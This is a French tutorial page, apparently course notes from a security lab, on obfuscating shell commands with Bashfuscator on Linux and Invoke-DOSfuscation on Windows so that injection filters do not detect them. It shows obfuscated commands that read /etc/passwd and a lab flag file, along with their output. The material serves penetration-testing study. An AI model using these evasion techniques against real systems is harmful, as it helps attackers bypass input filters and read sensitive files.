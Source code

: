 # Outils d'Évasion pour l'Obfuscation des Commandes

## <mark style="color:red;">1.</mark> <mark style="color:red;"></mark><mark style="color:red;">**Outils pour Linux (Bashfuscator)**</mark>

**Installation et Configuration de Bashfuscator**

*   **Clone du dépôt GitHub** :

    ```bash
    git clone https://github.com/Bashfuscator/Bashfuscator
    cd Bashfuscator
    pip3 install setuptools==65
    python3 setup.py install --user
    ```
*   **Utilisation de Bashfuscator** : Bashfuscator est un outil qui permet d'obfusquer des commandes Bash en utilisant divers mutateurs et techniques.

    Exécution de la commande avec l'option `-c` pour spécifier la commande à obfusquer :

    ```bash
    /bashfuscator -c 'cat /etc/passwd'
    ```

    Exemple d'output obfusqué :

    ```bash
    ${*/+27\[X\(} ...SNIP...  ${*~}
    ```

<mark style="color:green;">**Personnalisation des Commandes Obfusquées**</mark>

Vous pouvez affiner l'obfuscation en utilisant des options supplémentaires comme `-s`, `-t`, et `--no-mangling` :

```bash
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```

Exemple de commande obfusquée :

{% code overflow="wrap" fullWidth="true" %}
```bash
 "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
```
{% endcode %}

Cela permet d'exécuter la commande sans que le filtre ne la détecte, même si elle semble totalement obfusquée.

**Test de la Commande Obfusqué**

{% code overflow="wrap" fullWidth="true" %}
```bash
bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'
```
{% endcode %}

Si l'obfuscation fonctionne, la commande exécutera correctement et affichera le contenu souhaité, par exemple :

```ruby
troot:x:0:0:root:/root:/bin/bash
```

***

## <mark style="color:red;">2.</mark> <mark style="color:red;"></mark><mark style="color:red;">**Outils pour Windows (DOSfuscation)**</mark>

**Installation et Configuration de DOSfuscation**

*   **Clone du dépôt GitHub** :

    ```powershell
    git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
    cd Invoke-DOSfuscation
    Import-Module .\Invoke-DOSfuscation.psd1
    ```

**Utilisation de DOSfuscation**

Une fois l'outil installé, il est interactif et vous permet de choisir des options pour obfusquer les commandes. Exemple d'utilisation pour obfusquer une commande de type `type` :

{% code overflow="wrap" fullWidth="true" %}
```powershell
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1
```
{% endcode %}

L'outil retournera une version obfusquée de la commande :

{% code overflow="wrap" fullWidth="true" %}
```ruby
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```
{% endcode %}

**Exécution de la Commande Obfusquée**

{% code overflow="wrap" fullWidth="true" %}
```powershell
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```
{% endcode %}

La commande retournera le résultat attendu, par exemple :

```
test_flag
```
